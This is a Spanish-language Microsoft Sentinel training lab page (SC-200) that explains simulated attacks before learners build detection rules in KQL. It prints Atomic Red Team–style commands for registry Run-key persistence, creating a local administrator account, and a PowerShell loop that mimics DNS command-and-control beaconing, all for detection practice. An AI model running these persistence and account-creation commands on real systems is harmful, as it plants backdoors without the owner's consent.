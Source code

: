 ```yaml
---
lab:
  title: 'Ejercicio 5: descripción del modelado de detección'
  module: Learning Path 9 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Ruta de aprendizaje 9 - Laboratorio 1 - Ejercicio 5: descripción del modelado de detección

## Escenario del laboratorio

![Introducción al laboratorio.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

### Tiempo estimado para completar este laboratorio: 30 minutos

### Tarea 1: comprender los ataques

>**Importante: no realizarás ninguna acción en este ejercicio.**  Estas instrucciones son solo una explicación de los ataques que realizarás en el ejercicio siguiente. Lee detenidamente esta página.

Los patrones de ataque se basan en un proyecto de código abierto: <https://github.com/redcanaryco/atomic-red-team>

#### Ataque 1: persistencia con la agregación de clave del registro

Los atacantes agregarán un programa en la clave Ejecutar registro. De esta manera, se obtiene persistencia haciendo que el programa se ejecute cada vez que el usuario inicia sesión.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Ataque 2: agregación de usuarios y privilegio elevado

Los atacantes agregarán nuevos usuarios y elevarán el nuevo usuario al grupo de administradores. Esto permite al atacante iniciar sesión con una cuenta diferente con privilegios.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Ataque 3: DNS / C2

El atacante enviará un gran volumen de consultas DNS a un servidor de comando y control (C2). La intención es desencadenar la detección basada en umbral en el número de consultas DNS desde un único sistema de origen o en un único dominio de destino.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### Tarea 2: entender el modelado de detección

El ciclo de configuración de detección de ataques usado en este laboratorio representa todos los orígenes de datos, aunque solo se centre en dos orígenes de datos específicos.

Para crear una detección, empieza por crear primero una instrucción KQL. Como atacarás a un host, tendrás datos representativos para empezar a compilar la instrucción KQL.

Una vez que tengas la instrucción KQL, crea la regla analítica.

Una vez que la regla se desencadena y crea las alertas e incidentes, investiga para decidir si proporcionas campos que ayuden a los analistas de operaciones de seguridad en su investigación.

Después, realizarás otros cambios en la regla de análisis.

>**Nota:** algunas alertas se desencadenarán en un período más corto solo a los fines de este laboratorio.

## Continúa con el ejercicio 6

